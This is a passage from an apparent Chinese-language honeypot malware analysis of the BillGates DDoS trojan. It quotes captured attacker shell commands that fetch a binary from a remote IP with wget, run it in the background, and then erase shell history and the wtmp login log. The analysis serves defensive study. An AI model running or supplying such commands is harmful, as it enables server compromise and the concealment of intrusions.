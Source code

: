 接下来上wget，下载文件并执行，清除历史记录（可惜被我们蜜罐记录的清清楚楚）。

```
chattr -i /usr/bin/wget

chmod 755 /usr/bin/wget

yum install -y wget

pkill sysxlv

rm -f /etc/sysxlv

rm -f /etc/sysxlv.1

wget -c -P /etc/ http://111.73.45.73:9789/sysxlv

chmod 755 /etc/sysxlv

nohup /etc/sysxlv &gt; /dev/null 2&gt;&amp;1 &amp;

export HISTFILE=/dev/null

rm -f /var/log/wtmp

history –c

exit
```

从上面我们可以猜测，之前还有一个编译的版本是sysxlv.1，所以在启动前要查找并删除这个版本。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0186d44c31d1e40e25.png)

蜜罐中捕获的文件和对应的hash值

来，让我们一起走进信息安全，看看这个黑产dalao究竟要在服务器上做了些什么

## 3 承

sysxlv看起来像是一个可执行程序，查看一下基本信息

[![](https://p3.ssl.qhimg.com/t0114f5799b84bef983.jpg)](https://p3.ssl.qhimg.com/t0114f5799b84bef983.jpg)

确实是一个elf32的可执行程序，看样子也没有加壳，那就直接上反汇编利器IDA Pro。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0105f0bde00068fbe6.png)

看这架势像是江湖上大名鼎鼎的BillGates木马家族，该家族的木马，兼修windows和Linux两大平台，功能齐全，操作简单，攻击者可以选取TCP-SYN Flood、UDP Flood、CC攻击、DNS放大等多种攻击方式对目标发起攻击。
